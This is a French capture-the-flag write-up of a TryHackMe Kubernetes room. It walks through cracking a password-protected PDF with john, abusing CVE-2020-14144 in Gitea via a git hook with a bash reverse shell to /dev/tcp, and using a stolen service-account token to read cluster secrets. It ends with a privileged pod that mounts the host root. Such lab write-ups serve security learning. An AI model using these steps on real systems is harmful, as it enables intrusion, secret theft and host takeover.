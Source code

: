 # Writeup PalsForLife

<ins>Plateforme</ins>: **TryHackMe**\
<ins>Nom</ins>: **PalsForLife**\
<ins>Difficulté</ins>: **Medium**\
<ins>Infos</ins>: **security, kubernetes, ctf, john**

## Recon | NMAP
![image](https://user-images.githubusercontent.com/68467919/153236316-c3cf620f-c40b-40d4-813c-0e2977ab2a1d.png)

En effectuant un scan de la machine, nous découvrons plusieurs ports. Pour le début de l'audit, je vais me concentrer sur le port **31111** et **30180**.
Le port 31111 héberge un système de gestion, **Gitea** et l'autre un serveur **Nginx**.

## Port 31111 | GITEA

Après m'être inscris sur Gitea, je tombe sur ce profil : 

![image](https://user-images.githubusercontent.com/68467919/153236908-b1663efb-89d0-46a2-ad40-4de5dcc05898.png)

Notons que cet utilisateur s'appelle "leeroy" et que son mail est leeroy@jenki.ns.

## Port 30180 | NGINX

![image](https://user-images.githubusercontent.com/68467919/153238415-152381af-a2fb-4bbb-b735-2ac7f30ddae1.png)

### Source

![image](https://user-images.githubusercontent.com/68467919/153238575-7f727c97-d979-4154-9b39-954c77c5f09f.png)

Intéressant, l'ID de la div s'appelle "uninteresting_file.pdf" suivi par du base64. Décodons ça sur CyberChef pour voir ce que cela donne.

![image](https://user-images.githubusercontent.com/68467919/153239259-15ccd497-a28d-4c23-9d3a-e413a2f88077.png)

Sans grande surprise, le base64 décodé est un fichier pdf. En créant un fichier .pdf avec la string décodé, nous pourrions peut-être l'ouvrir et voir son contenu?

![image](https://user-images.githubusercontent.com/68467919/153239732-c9792b53-32c6-4708-9e1e-32c84b8986ff.png)

Malheureusement, le fichier est protégé par un mot de passe. L'utilisation du script pdf2john.pl et de john pourraient nous aider à cracker le mot de passe.\
La première étape est de récupérer le hash du pdf en utilisant la commande :
```bash 
pdf2john.pl your_file.pdf > pdf
```
Vérifions notre fichier "pdf"
```
cat pdf
file.pdf:$pdf$5*6*256*-4*1*16*88ad00a9681ee7aedef1a78f402d6561*48*d64d0b238fbc4121148f2b9160146b30c32782714497083a2bbad81c74fdbaf522d2fda56661ef9f20d2713857484658*48*01196fa933adcf7610161370c5d096b40da833e0786aa09f81b8f4aee1d5bbf41f34b5f6ae55b85d811c07d321961744*32*82968e9e8581965d9612aefa3a379f6f690dd61ca377e6f72f9e27ed359bceab*32*38e2bdc42b33bc60f8e90d816900777069fefffca17acbf9f1ac3975db469f24
```
Puis crackons le hash 
```
john --wordlist=/home/r0s3/SecLists/Passwords/Leaked-Databases/rockyou.txt pdf
````
![image](https://user-images.githubusercontent.com/68467919/153241250-da6817bf-ce48-4384-9944-1ae9e010cebe.png)

Parfait, le mot de passe est donc chickenlegs (cool comme mot de passe non?)\
En ouvrant le PDF, voici ce qui apparait : 

![image](https://user-images.githubusercontent.com/68467919/153241961-3e18e272-ae7d-4625-9901-1f29b0c56e8f.png)

Peut-être que nous devrions tester de nous connecter avec l'utilisateur leeroy sur Gitea avec ce "mot de passe"?

![image](https://user-images.githubusercontent.com/68467919/153242377-32846368-60b2-46a6-8ab5-d60462d10c53.png)

## Flag 1 

<ins>Hint</ins> : *Must be hidden somewhere in the web tool*

L'utilisateur Leeroy possède un repo privé, mais rien d'intéressant à l'intérieur mis à part un readme.md. \
J'ai changé l'owner du repo, mais ça n'a servi à rien. En regardant les paramètres du repo, nous pouvons voir que l'input "secret" possède des caractères. Allons jeter un coup d'oeil dans le code source.
![image](https://user-images.githubusercontent.com/68467919/153243203-05fdae85-1f3e-488a-9dad-1d5bafcd398e.png)
![image](https://user-images.githubusercontent.com/68467919/153244075-a0913b11-9570-4ce5-917d-30fa9a39f5fd.png)

## Reverse-Shell | CVE-2020-14144 
(https://podalirius.net/fr/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)

Cette vulnérabilité nous permet de pouvoir créer un Hook qui exécutera un script shell après avoir reçu un nouveau commit.
```bash
#!/bin/bash
bash -i >& /dev/tcp/[your_ip]/[your_port] 0>&1 &
```
![image](https://user-images.githubusercontent.com/68467919/153244989-5eece4b2-e031-4662-b4cf-0aa8999946fc.png)

## Flag2 

<ins>Hint</ins> : *Get a shell* 

Rien de bien spécial pour avoir ce flag, il suffit juste d'obtenir un reverse-shell et d'aller dans le répertoire root.
![image](https://user-images.githubusercontent.com/68467919/153245401-e44d535b-effd-45c6-b50e-a71c56a7ceae.png)

## Kubernetes 

Essayons donc d'élever nos privilèges. Le challenge est basé sur Kubernetes, il serait peut-être donc judicieux de fouiller vers ce côté là. Après un peu d'énumération, nous trouvons dans le répetoire /run/secrets/kubernetes.io/serviceaccount/ trois fichiers.\
Le premier est un certificat, le deuxième est un token et le dernier est le fichier namespace

Grâce à kubectl ou curl, nous pourrions essayer d'énumerer les différents pod.\
Je préfère utiliser kubectl pour accéder au cluster, car beaucoup plus rapide pour taper les commandes après l'avoir config ! 

```bash
kubectl config set-cluster cfc --server=https://[ip]:6443 --certificate-authority=ca.crt
kubectl config set-context cfc --cluster=cfc
kubectl config set-credentials user={token}
kubectl config set-context cfc --user=user
kubectl config use-context cfc
```
Nous pouvons donc lister les pods, ainsi que les secrets !\
Grâce à la commande

```bash
kubectl get secrets -n kube-system
```
Nous pouvons voir les objets contenus dans kube-system.

![image](https://user-images.githubusercontent.com/68467919/153248250-e91d62cf-ff16-4b18-b1c7-d5cf3ac0dac7.png) 

## Flag3

<ins>Hint</ins>: *kubectl*

![image](https://user-images.githubusercontent.com/68467919/153248925-63a28564-6091-4dd5-a333-43dbf3c00b05.png)

Le flag numéro 3 était donc dans kube-system. Nous pouvons donc lire les données dans l'objet en les affichant au format YAML grâce à la commande

```bash
kubectl get secrets flag3 -n kubesystem -o yaml
```
## Flag4

<ins>Hint</ins>: *Can we reuse a node image?* 

Avant toutes choses, nous devrions vérifier ce que nous pouvons faire avec kubectl.
![image](https://user-images.githubusercontent.com/68467919/153250282-8a95742d-808d-4629-9f05-30cb51a096c3.png)

Il est possible pour moi, de créer un pod. L'hint nous indique qu'il serait sûrement possible de réutiliser l'image d'un pod déjà existant.\
Je vais réutiliser l'image d'NGINX et modifier le payload déjà existant sur Hacktricks pour par la suite créer un nouveau pod qui me permettra de pouvoir monter le répertoire root. 

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
spec:
  volumes:
  - name: host
    hostPath:
      path: /
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750 
    name: attacker-pod
    command: ["/bin/sh", "-c", "--"]
    args: ["while true; do sleep 30; done;"]
    securityContext:
      privileged: true
      allowPrivilegeEscalation: true
    volumeMounts:
    - name: host
      mountPath: /host
  restartPolicy: Never

```
![image](https://user-images.githubusercontent.com/68467919/153259593-fe015e21-a493-4aed-afa3-f8ceab3aeb8a.png)


### Notes personnelles

J'ai trouvé ce CTF très intéressant et un peu compliqué à la fois. C'est l'un de mes premiers challenges où je suis confronté à Kubernetes. J'ai appris pas mal de nouvelles choses même si ce n'était pas évident !


### Ressources


https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216 \
https://rioasmara.com/2021/09/18/kubernetes-yaml-for-reverse-shell-and-map-root/ \
https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/enumeration-from-a-pod \
https://stackoverflow.com/questions/31870222/how-can-i-keep-a-container-running-on-kubernetes \
https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216
https://unit42.paloaltonetworks.com/unsecured-kubernetes-instances/
